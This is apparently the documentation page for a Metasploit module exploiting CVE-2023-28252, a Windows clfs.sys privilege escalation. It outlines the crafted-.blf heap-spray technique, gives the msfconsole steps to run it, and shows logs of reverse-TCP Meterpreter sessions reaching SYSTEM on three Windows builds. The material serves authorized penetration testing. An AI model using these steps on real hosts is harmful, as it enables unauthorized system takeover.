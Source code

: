 ## Vulnerable Application

A privilege escalation vulnerability exists in the clfs.sys driver which comes installed by default on
Windows 10 21H2, Windows 11 21H2 and Windows Server 20348 operating systems. 

The clfs.sys driver contains a function CreateLogFile that is used to create
open and edit '*.blf' (base log format) files. Inside a .blf file there are multiple blocks of data which
contain checksums to verify the integrity of the .blf file and to ensure the file looks and acts like a
.blf file. However, these files can be edited with CreateFileA or with fopen and then modified with
WriteFile or fwrite respectively in order to change the contents of the file and update their checksums accordingly.

This exploit makes use to two different kinds of specially crafted .blf files that are edited using the technique
mentioned above. There are multiple spray .blf files. The spray .blf files are specially crafted to initiate an out of
bounds read which reads from a contiguous block of memory. The block of memory it reads from contains a read-write pipe
that points to the address of the second type of .blf file - the trigger .blf file. The trigger .blf file is specially 
crafted read the SYSTEM token and write it in the process of the exploit to achieve the local privilege escalation.

The exploits creates a controlled memory space by first looping over the CreatePipe function to
to create thousands of read-write pipes (which take up 0x90 bytes of memory). It then releases a certain number of
pipes from memory and calls CreateLogFile to open the pre-existing spray .blf files which when being opened fill the
0x90 byte gaps created by the deallocation of the pipes in memory, creating the controlled memory space.

This is a very brief and high overview description of what the exploit is actually doing. For a more detailed and in
depth analysis please refer to the following [reference](https://github.com/fortra/CVE-2023-28252).

### Installation And Setup
Windows 11 versions 21H2 are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 21H2 build 22000.

## Options  

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_28252_clfs_driver`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows Server 2022 Build 20348 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching msiexec to host the DLL...
[+] Process 6080 launched.
[*] Reflectively injecting the DLL into 6080...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 11 opened (172.16.199.1:4443 -> 172.16.199.134:49864) at 2023-07-31 13:44:35 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 Version 21H2 Build 22000 x64
```
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > sessions -i 1
[*] Starting interaction with 1...
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.22000.0 which has a vulnerable version of clfs.sys installed by default
[*] Checking compatibility
[*] Launching netsh to host the DLL...
[+] Process 9124 launched.
[*] Reflectively injecting the DLL into 9124...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.132
[*] Meterpreter session 4 opened (172.16.199.1:4443 -> 172.16.199.132:49894) at 2023-07-31 11:24:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 Version 19042 x64
```
msf6 exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching netsh to host the DLL...
[+] Process 4888 launched.
[*] Reflectively injecting the DLL into 4888...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.131
[*] Meterpreter session 13 opened (172.16.199.1:4443 -> 172.16.199.131:49840) at 2023-07-31 14:34:37 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
